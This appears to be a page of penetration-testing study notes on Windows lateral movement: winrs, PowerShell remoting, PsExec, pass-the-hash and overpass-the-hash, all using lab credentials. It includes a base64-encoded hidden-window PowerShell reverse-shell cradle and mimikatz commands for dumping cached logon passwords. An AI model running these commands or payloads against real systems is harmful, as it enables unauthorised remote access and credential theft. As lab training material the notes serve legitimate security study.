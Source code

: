 ### winrs (WinRM)

Allows us to execute commands remotely

```bash
# Execute commands
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"

# Pop a shell (cradle with ps_cradle_gen.sh)
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### Powershell Remoting

```powershell
# Create a session
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
Enter-PSSession 1
```

### PsExec

Requires:

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

```bash
./PsExec64.exe -i \\files04 -u corp\jen -p Nexus123! cmd
```

### Pass the Hash

[wmiexec](../14%20Impacket%20Tools/wmiexec.md)

This techniques works against Active Directory domain accounts and the built-in local administrator account.

### Overpass the Hash

Provides us with access to a resource with Kerberos authentication using a NTLM hash.

The pretext for this attack involves a user right clicking a file, clicking `Run as different user`, and entering credentials for said user. These credentials are then cached on the machine, and recoverable via `mimikatz`.

```
privilege::debug
sekurlsa::logonpasswords
```
